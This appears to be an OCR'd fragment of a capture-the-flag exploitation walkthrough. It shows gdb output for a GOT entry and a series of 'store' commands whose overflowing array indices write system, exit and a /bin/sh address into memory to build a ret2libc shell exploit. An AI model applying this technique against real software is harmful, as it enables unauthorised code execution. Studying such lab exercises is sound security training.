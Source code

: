 Input command: store
 Number: 4159090384
 Index: 33632971

(gdb) x/xw 0x804a000
0x804a000 <printf@got.plt>:     0xf7e6aed0

write system at index 0:

Input command: store
 Number: 4159090384
 Index: 1073741824

write exit at index 1:

Input command: store
 Number: 4159040368
 Index: 1

write /bin/sh at index 2:

Input command: store
 Number: 4160264172
 Index: 2

write ret2libc address in eip

Input command: store
 Number: 4294956244
 Index: 1073741938

eip = 1073741938
write storage index 0 = 1073741824
